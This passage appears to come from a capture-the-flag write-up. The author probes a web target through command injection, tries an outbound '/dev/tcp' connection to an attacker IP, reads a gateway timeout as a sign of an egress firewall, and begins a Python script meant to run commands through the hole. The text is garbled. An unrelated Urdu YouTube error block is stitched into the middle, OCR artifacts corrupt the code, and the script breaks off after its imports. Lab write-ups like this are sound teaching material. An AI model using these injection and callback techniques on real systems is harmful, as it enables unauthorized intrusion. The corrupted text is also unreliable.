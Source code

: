 I verified that my syntax would work by searching for `bash`:

![](/img/image-20210826133041067.png)

I tried to use `/dev/tcp` to contact my host with
`"echo test > /dev/tcp/10.10.14.6/443"`. It just hung the page. My
thinking here is that the site is now trying to contact me, but the
firewall is blocking outbound. So the site keeps trying until it times
out. After a full minute or two:



    HTTP/1.1 504 Gateway Time-out
    Server: nginx
    Date: Thu, 26 Aug 2021 17:32:44 GMT
    Content-Type: text.md
    Content-Length: 160
    Connection: close

    .md>
    <head><title>504 Gateway Time-out</title></head>
    <body>
    <center><h1>504 Gateway Time-out</h1></center>
    <hr><center>nginx</center>
    </body>
    <.md>



### Command Script

I'll write a quick shell to allow me to enumerate the filesystem. [This
video](https://www.youtube.com/watch?v=B_NXWx8BuHM) shows the process
for that:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=PP05zq1ZsB0){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

Here's the final script (with a few variable renames):



    #!/usr/bin/env python3    

    import re    
    import requests    
    from cmd import Cmd    
    from.md import unescape    
